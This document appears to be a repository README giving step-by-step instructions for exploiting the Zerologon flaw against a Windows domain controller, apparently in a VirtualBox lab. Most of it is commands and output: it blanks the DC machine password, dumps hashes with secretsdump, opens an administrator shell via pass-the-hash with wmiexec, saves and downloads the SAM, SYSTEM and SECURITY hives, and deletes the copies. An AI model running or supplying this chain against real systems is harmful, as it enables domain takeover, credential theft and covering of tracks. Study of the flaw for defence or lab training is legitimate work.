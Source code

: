# ZEROLOGON Instructions:

## Before you begin:

1. you need the Domain Name for the Windows Domain Controller you are attacking.
2. you need the NetBIOS Name (PC name) for the Windows Domain Controller you are attacking.
3. you need the IP address for the Windows Domain Controller you are attacking. 
**That is all!!**

## Nmap to the rescue:
### Find the DC specifically:
All domain controllers listen on port 389
```
sudo nmap -p389 -sV 192.168.1.28
```
```
sudo nmap -p389 -sV 192.168.1.28
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-15 22:25 PDT
Nmap scan report for 192.168.1.28
Host is up (0.00037s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: zerologon.learn.now, Site: Default-First-Site-Name)
MAC Address: 08:00:27:AA:C2:F6 (Oracle VirtualBox virtual NIC)
Service Info: Host: ZEROLOGON-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.45 seconds
```

## change directory to the zerologon exploit folder:

```
cd ~/zerologon
```

## 1st run set_empty_pw.py to exploit the machine:

this will set the password to an empty string

python3 set_empty_pw.py \<NetBIOS-name\> \<IP-Address\>
```
python3 set_empty_pw.py ZEROLOGON-DC 192.168.1.28
```
look for:
Success! DC should now have the empty string as its machine password.


## 2nd run secretsdump.py to dump the hashes:
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 \<Domain\>/\<NETBIOS-name\>\\$@\<IP-Address\>
it is important to have \$@ in between the NetBIOS name and the IP 

```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 ZEROLOGON/ZEROLOGON-DC\$@192.168.1.28
```

looking for:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::


## 3rd run wmiexec.py to get terminal on victim machine:

ZEROLOGON/Administrator@192.168.1.28
wmiexec.py \<Domain\>/\<user-name\>@\<IP-Address\> -hashes \<administrator-hash\>

```
wmiexec.py ZEROLOGON/Administrator@192.168.1.28 -hashes aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976
```

Looking for:
C:\>


## Commands to run once on victim machine:
```
verify who you are logged in as:
C:\>whoami
zerologon\administrator

verify the system you are logged into:
C:\>hostname
ZEROLOGON-DC

Prep logon credentials for download:
C:\>reg save HKLM\SYSTEM system.save
The operation completed successfully.

C:\>reg save HKLM\SAM sam.save
The operation completed successfully.

C:\>reg save HKLM\SECURITY security.save
The operation completed successfully.

Download logon credentials:
C:\>get system.save
[*] Downloading C:\\system.save

C:\>get sam.save
[*] Downloading C:\\sam.save

C:\>get security.save
[*] Downloading C:\\security.save

Clean up:
C:\>del /f system.save
C:\>del /f sam.save
C:\>del /f security.save
```

## Exit out and go back to Linux terminal: 

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Looking for:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::

## Restore the original password:
python3 reinstall_original_pw.py <NetBIOS-name> <IP-Address> <admin-hash>
```
python3 reinstall_original_pw.py ZEROLOGON-DC 192.168.1.28 aad3b435b51404eeaad3b435b51404ee:6d4a95ae230e5ce2c1dbfd780e340cbc
```
